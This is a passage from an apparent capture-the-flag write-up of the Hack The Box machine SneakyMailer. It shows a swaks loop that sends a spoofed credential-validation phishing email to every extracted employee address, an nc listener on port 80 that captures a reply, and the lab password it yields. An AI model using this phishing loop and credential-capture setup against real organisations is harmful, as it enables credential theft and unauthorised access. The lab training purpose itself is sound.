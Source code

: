 ### Putting it Together
We now have a way to send our phishing email to any Sneaky Corp employee. There's a lot to get through, so lets combine the SWAKS command with a loop through our extracted email list.  
`>> while read email; do swaks -to $email -from support@sneakymailer.htb -header "Subject: Authentication Error" -body "Please Validate Credentials at http://10.10.14.28/" -server 10.10.10.197; done < Extracts/emails.txt`

Don't forget to set up a listener for their response.  
`>> sudo nc -lvnp 80`  
![Response](../images/HTB-SneakyMAiler/Phishing_Response.png)

Looks like we've got a response! Paul has sent us his credentials:  
Username: paulbyrd@sneakymailer.htb  
Password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht

## Foothold

### Employee Email
Authenticating with Paul's email credentials, we see two emails in his inbox. The first is a request to user "low" involving their Pypi service, while the 2nd provides us with credentials to a "developer" account.  
![Email Inbox User](../images/HTB-SneakyMAiler/Foothold_Inbox_User.png)
![Email Inbox Creds](../images/HTB-SneakyMAiler/Foothold_Inbox_Creds.png)
